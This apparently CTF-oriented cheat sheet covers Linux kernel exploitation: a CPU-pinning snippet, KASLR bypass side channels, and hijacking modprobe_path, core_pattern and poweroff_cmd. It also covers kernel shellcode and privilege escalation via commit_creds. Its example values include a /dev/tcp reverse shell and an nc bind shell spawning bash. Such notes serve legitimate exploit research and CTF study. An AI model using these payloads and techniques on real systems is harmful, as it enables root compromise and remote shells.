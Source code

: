 ```c
void pin_on_cpu(int cpu_id)
{
    cpu_set_t cpuset;
    CPU_ZERO(&cpuset);
    CPU_SET(cpu_id, &cpuset);
    sched_setaffinity(0, sizeof(cpu_set_t), &cpuset);
}
```

KASLR bypass

- Use side channels like [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html).

- In older versions of Ubuntu, the kernel function `startup_xen` address could be read from `/sys/kernel/notes`. (fixed by CVE-2024-26816)

Auto-reboot after panic or oops

- Set `panic_on_oops=1` and `panic_timeout=1`

Global variable hijacking

- `modprobe_path[]`

    - It will be triggered when attempting to execute an unknown format file.

    - E.g. `modprobe_path[] = "/tmp//modprobe"`

- `core_pattern[]`

    - It will be triggered when an executable causes an SIGSEGV, or zero out `task_struct->mm->pgd` to trigger page fault.

    - E.g. `core_pattern[] = "|/bin/bash -c sh</dev/tcp/ip/port"`

- `poweroff_cmd[]`

    - It won't be triggered basically; you need chain it with other gadgets, such as `tcp_prot.close = &poweroff_work_func`.

    - E.g. `poweroff_cmd[] = "/bin/sh -c /bin/sleep${IFS}10&&/usr/bin/nc${IFS}-lnvp${IFS}13337${IFS}-e${IFS}/bin/bash"`

- `compat_elf_format->load_binary` (last `formats` entry)

    - The rbx will be file content, which allows you to do ROP chain

    - It can be triggered by executing a file with unknown format

Kernel shellcode

- Set kernel address as executable by `set_memory_x(page_aligned_addr, num_of_page)`.

- Leak ktext in shellcode - instruction `rdmsr` with `MSR_LSTAR`. (see `syscall_init()` for more details)

Privilege escalation

- `commit_creds(&init_cred)`

Sandbox escape
